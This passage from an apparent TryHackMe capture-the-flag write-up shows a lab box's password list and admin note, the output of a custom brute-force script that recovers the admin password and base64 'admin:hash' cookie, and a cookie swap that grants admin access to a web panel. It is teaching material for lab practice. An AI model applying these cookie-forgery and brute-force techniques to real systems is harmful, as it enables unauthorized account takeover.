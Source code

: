   ```
  -rw-r--r--    1 1002     1002          368 Aug 08  2023 .from_admin.txt
  -rw-r--r--    1 1002     1002         3150 Aug 08  2023 .passwords_list.txt
  -rwxr-xr-x    1 1002     1002          655 Aug 08  2023 .profile
  ```

- Let's check them now.

  ```
  cat .from_admin.txt 
  To all employees, this is "admin" speaking,
  i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.
  
  NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
  
  cat .passwords_list.txt 
  Vxb38mSNN8wxqHxv6uMX
  56J4Zw6cvz8qDvhCWCVy
  qLnqTXydnY3ktstntLGu
  N63nPUxDG2ZvrhZgP978
  [SNIP!]
  ```

---

## 🌐 Web Exploitation 

- Here, Hydra wont work for brute forcing, you have to write your own script. I wrote few and you can find them [here](https://github.com/mauzware/Random-Scripts/tree/main/Hijack-THM).

  ```
  python3 hijack.py 
  Enter the admin page URL: http://10.10.106.87/administration.php
  <Response [200]>
  YWRtaW46YmU4MzJjMTAxZmM3NWFmNGFiYWYwOTI1N2FhN2MxNjk=
  YWRtaW46ZmVjNmRmNjBkZmExZmM1NzllZDljOTEwNGY3NTUyZTM=
  YWRtaW46NjA1NmYyN2U3N2M4NDE2MWY5ZDRhNTM2OTZjNDdhOWI=
  YWRtaW46MTRmMTQ4Njk5YzI3YWUwMTM0NzUxNDNmMzBkMmJiMjI=
  YWRtaW46ZGEwYmE2MWIzZmI0NzYzMTllZmE3YmYyZGU0Y2VmOTc=
  YWRtaW46NWMyYzQ2M2VhZmVhYzg3NzAyZDZhNzhiNTY1YzE0Yzg=
  [SNIP!]
  password: uDh3jCQsdcuLhjVkAy5x
  cookie: YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
  ```
  
- This one gave me both password and base64 encoded admin cookie. I already created a new user on the web app before writing a script and now I just swapped cookies and Voila, I'm admin!

  ```
  URL encoded cookie -> YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU%3D
  
  Welcome admin
  
  This site is still under development!
  
  Administration Panel
  
  Services Status Checker
  
  Provide the service name : 
  
  Execute
  ```

---